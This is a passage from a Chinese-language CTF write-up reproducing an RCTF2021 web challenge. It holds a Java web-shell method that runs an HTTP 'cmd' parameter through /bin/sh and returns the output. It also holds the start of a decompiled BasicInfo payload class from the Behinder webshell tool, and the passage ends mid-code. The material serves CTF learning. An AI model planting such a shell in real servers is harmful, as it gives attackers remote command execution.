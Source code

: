 ```java
    public void e(Object req,Object resp) throws Exception{
        HttpServletRequest request = (HttpServletRequest) req;
        HttpServletResponse response = (HttpServletResponse) resp;
        String[] cmd = {"/bin/sh","-c",request.getParameter("cmd")};
        //String[] cmd = {"cmd","/c",request.getParameter("cmd")};
        Process inProcess = (Process) Runtime.getRuntime().exec(cmd);


        InputStream in = inProcess.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(in));
        String line;

        byte[] bcache = new byte[1024];
        int readSize = 0;
        try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
            while ((readSize =in.read(bcache))!=-1){
                outputStream.write(bcache,0,readSize);
            }
            response.getWriter().println(outputStream.toString());
            //System.out.println(outputStream.toString());
        }
    }
}

```

然后我本地打通了复现的docker那边死活没回显：

![image-20211103172357082](RCTF2021 Web复现.assets/image-20211103172357082.png)

看了一下各种writeup，才看到好像题目的环境是不出网，过滤了内存马和命令执行，还给了个提示：冰蝎basicinfo。

这个`basicinfo`是啥，咱也不知道，咱也不敢问，把冰蝎的那个jar包解压缩然后拿IDEA打开，查找一下`basicinfo`，找到了`net/rebeyond/behinder/payload/java/BasicInfo.class`：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package net.rebeyond.behinder.payload.java;

import java.io.File;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;
import java.util.Properties;
import java.util.Set;
import java.util.Map.Entry;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

public class BasicInfo {
    public static String whatever;
    private Object Request;
    private Object Response;
    private Object Session;

    public BasicInfo() {
    }

    public boolean equals(Object obj) {
        String result = "";
```